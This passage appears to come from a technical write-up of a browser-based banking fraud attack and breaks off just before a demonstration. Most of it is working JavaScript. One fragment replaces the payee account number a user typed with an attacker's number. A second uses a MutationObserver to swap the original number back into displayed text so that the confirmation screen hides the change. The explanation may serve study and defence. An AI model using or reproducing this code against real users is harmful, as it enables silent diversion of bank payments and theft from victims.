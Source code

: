 ```javascript
    if (field.value && !originalAccountNumber) {
      originalAccountNumber = field.value;
    }
    
    if (field.value) {
      // Saving the original number as a data attribute
      field.setAttribute('data-original-account', field.value);
      
      // Replacing with attacker's account number
      field.value = attackerAccountNumber;
    }
  });
});
```

The second key element is the mechanism for hiding the modification from the user:

```javascript
// MutationObserver monitors changes in the DOM
const observer = new MutationObserver(function(mutations) {
  // We search the DOM for displayed attacker's account number
  document.querySelectorAll('*').forEach(element => {
    if (element.textContent && 
        element.textContent.includes(attackerAccountNumber) && 
        element.childNodes.length <= 3) {
      
      // If found, replace back with the original number
      if (originalAccountNumber) {
        element.textContent = element.textContent.replace(
          attackerAccountNumber, 
          originalAccountNumber
        );
      }
    }
  });
});

// Starting the DOM observer
observer.observe(document.body, {
  childList: true,
  subtree: true,
  characterData: true
});
```

This code creates an observer that monitors all changes in the DOM tree. As soon as the attacker's account number appears in any element (e.g., on the confirmation screen), it is immediately replaced with the original number entered by the user.

### Demonstration

To demonstrate the attack:
